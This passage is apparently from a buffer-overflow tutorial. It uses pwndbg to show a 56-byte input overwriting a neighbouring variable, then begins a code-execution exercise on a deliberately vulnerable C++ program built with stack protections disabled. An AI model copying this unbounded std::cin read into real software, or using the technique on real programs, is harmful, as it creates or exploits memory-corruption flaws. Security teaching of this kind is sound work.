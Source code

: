 ```
gdb ./prog 

```
I'm using [pwndbg](https://github.com/pwndbg/pwndbg), which is a python module that automatically loads into gdb and provides multiple debugging commands.
```
pwndbg> x/20gx &overflowme
0x404060 <overflowme>:	0x0000000000000061	0x0000000000000000
0x404070 <overflowme+16>:	0x0000000000000000	0x0000000000000000
0x404080 <overflowme+32>:	0x0000000000000000	0x0000000000000000
0x404090 <modifyMe>:	0x00000000deadbeef
```
In this case, there's a buffer overflow bug because `std::cin` doesn't validate the size of user input. Let's set a breakpoint on `0x0000000000401196` and send 56 bytes using std::cin
```
pwndbg> b *0x0000000000401196
pwndbg> r
Starting program: /tmp/prog 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbb
```

```
pwndbg> x/20gx &overflowme
0x404060 <overflowme>:	0x6161616161616161	0x6161616161616161
0x404070 <overflowme+16>:	0x6161616161616161	0x6161616161616161
0x404080 <overflowme+32>:	0x6161616161616161	0x6161616161616161
0x404090 <modifyMe>:	0x6262626262626262	0x0000000000000000
```
So, we've successfully changed the value of the variable `modifyMe`, which was initially `0xdeadbeef`. 

### Code execution using buffer overflow
Now let's try some interesting stuff, overwriting variables isn't fun, right?

```cpp
#include<iostream>

void callme(){
	puts("How did you do that?");
}

int main(){
	char overflowme[48];
	printf("%p\n",overflowme);
	std::cin>>overflowme;
    return 0;
}


```
Let's compile this program using `g++ prog.cpp -o prog -fno-stack-protector -no-pie` and load it in gdb. 
pwndbg supports `pwnlib`'s `cyclic` command which can be used to generate a cyclic pattern. Let's generate a pattern of size 100 bytes.
```
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```
